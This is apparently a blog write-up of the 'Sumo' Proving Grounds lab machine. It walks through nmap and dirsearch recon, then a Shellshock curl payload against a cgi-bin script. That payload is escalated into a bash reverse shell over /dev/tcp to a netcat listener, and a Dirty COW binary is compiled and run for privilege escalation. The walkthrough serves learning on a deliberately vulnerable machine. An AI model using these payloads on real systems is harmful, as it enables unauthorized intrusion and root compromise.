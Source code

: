 ```yaml
---
title: Writeup for Lab SUMO (Proving Grounds
categories:
  - Bug Bounty
  - Projects
summary: This is the writeup for sumo lab from proving grounds 
created: 2023-07-20
lastmod: 2023-07-20
---
```


## Introduction
Sumo is a machine available on vulnhub and offsec proving grounds labeled **easy** and covers 0-day exploits discovered in the past. The machine hosts a website and has 2 flags to be submitted. 

## Recon
After getting the IP of the machine, ran a basic nmap scan on the target machine: 
```bash
nmap -Pn -sV -T4 192.168.1.48
```

The disovered open ports are `80` and `22`. Lets visit the website first. 

Next thing, i brute forced into the website using `dirsearch`: 
```
python3 dirsearch --url https://192.168.1.120
```

I found the `CGI-BIN` endpoint. And from the nmap output, we know the version of apache is `2.2.22` which is quite an old version.

## Exploitation
### Initial Access

Now, duringthe brute force phase, i also discovered the `test` script under the `CGI-BIN` folder. Since, we know the system is old, lets try the famous `ShellShock` exploit: 
```
curl -H ‘User-Agent: () { :; }; whoami; pwd; pwd’ http://192.168.124.87/cgi-bin/test.sh
```

And we got the output back. Lets escalate it to a shell: 
```
## Listening
nc -lvnp 555

## Target execution
curl -H ‘User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<IP>/555 0>&1’ http://192.168.XX.XX/cgi-bin/test.sh
```

And we got the shell. Our first flag is in `local.txt` file:
```
cat ./local.txt
```

### Privilege Escalation
Next, we need to escalate it to the root user. So, we can get the other flag as well. Lets get the system version first: 
```
hostnamectl  ## Game me no output
uname -a
```

Hmmm, the linux version seems to be quite old. Now, just like before, the local exploit that came quickly to mind after the shellshoch was `dirtycow`. Lets get a public version of it. Compiling it: 
```
gcc dirtycow.c -o dcow -pthread -static
```

I used the `-static` flag to statically compile the glibc libraries with the binary. Otherwise, you would run into the libraries issue since the system was quite old and i was on `Kali 2023.1`. Lets execute the binary: 
```
chmod +x ./dcow
./dcow
```

